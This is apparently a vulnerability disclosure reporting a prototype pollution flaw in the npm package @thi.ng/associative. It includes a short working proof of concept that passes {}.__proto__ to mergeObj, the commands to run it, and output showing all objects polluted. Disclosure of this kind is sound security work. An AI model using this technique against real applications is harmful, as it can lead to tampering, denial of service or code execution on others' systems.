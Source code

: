 # Description

`@thi.ng/associative` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { mergeObj } = require('@thi.ng/associative')
console.log(`Before: ${{}.polluted}`)
mergeObj({}.__proto__, {polluted: true})
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @thi.ng/associative # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

